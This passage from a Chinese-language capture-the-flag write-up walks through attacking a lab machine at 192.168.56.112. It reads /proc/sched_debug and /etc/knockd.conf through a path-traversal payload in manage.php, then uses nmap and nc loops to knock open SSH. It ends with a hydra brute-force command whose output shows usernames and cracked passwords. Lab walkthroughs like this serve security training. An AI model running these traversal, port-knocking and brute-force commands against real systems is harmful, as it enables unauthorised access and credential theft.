 然后我们通过 **/proc/sched_debug** 来查看 Linux 系统中任务的调度情况

```
http://192.168.56.112/manage.php?FUZZ=../../../../../../../../../proc/sched_debug
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE2L66Ywh4miahqSvrIXP8WD5Cru7w5h9UBuEy70CU7zD8To9yxY3AkJg/640?wx_fmt=jpeg)

整理查询发现靶机上运行这 knockd

关于 knockd 的介绍：https://blog.csdn.net/nzjdsds/article/details/112476120

![](https://mmbiz.qpic.cn/mmbiz_jpg/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEL1LTzhyg7AmGSyHsMDqSSsqMDuUiaTT4iaibY25KTOJJ5iaiboTtODqYJcQ/640?wx_fmt=jpeg)

那么我们读取下 knockd 的配置文件

```
http://192.168.56.112/manage.php?FUZZ=../../../../../../../../../etc/knockd.conf
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEEzDTj24tGTcfIYaf44stLs28eBiaHJMXMAjlq3Kyn2EMFDOr27AMQWg/640?wx_fmt=png)

```
options] 
        UseSyslog
[openSSH] 
        sequence = 7469,8475,9842 
        seq_timeout = 25 
        command = /sbin/iptables ‐I INPUT ‐s %IP% ‐p tcp ‐‐dport 22 ‐j ACCEPT 
        tcpflags = syn
[closeSSH] 
        sequence = 9842,8475,7469 
        seq_timeout = 25 
        command = /sbin/iptables ‐D INPUT ‐s %IP% ‐p tcp ‐‐dport 22 ‐j ACCEPT 
        tcpflags = syn
```

这里提供 2 种敲击方法：nc、nmap

```
for x in 7469 8475 9842;do nmap ‐Pn ‐‐max‐retries 0 ‐p $x 192.168.56.112;done 
for x in 7469 8475 9842 22 ;do nc 192.168.56.112 $x;done
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwEK2V8yJ6oq0c3SLJcdczfA0SUEUO8L9ia4QBebGU2wzkyIxzqKmFcq0A/640?wx_fmt=png)

此时 SSH 就可以正常连接，接下来我们用 hydra 来进行爆破，用户名和密码就是我们先前 SQL 注入获得的

```
hydra ‐L username ‐P password ssh://192.168.56.112
```

![](https://mmbiz.qpic.cn/mmbiz_png/XWPpvP3nWaibWN6Y9ia13xG1Xt3bDBqzwE70mL15Iv2zlsHFEf9n18eTa8TRictLdM91PZ5lFl812ndjicDadP0xmg/640?wx_fmt=png)

```
[22][ssh] host: 192.168.56.112 login: janitor password: Ilovepeepee 
[22][ssh] host: 192.168.56.112 login: joeyt password: Passw0rd 
[22][ssh] host: 192.168.56.112 login: chandlerb password: UrAG0D!
```
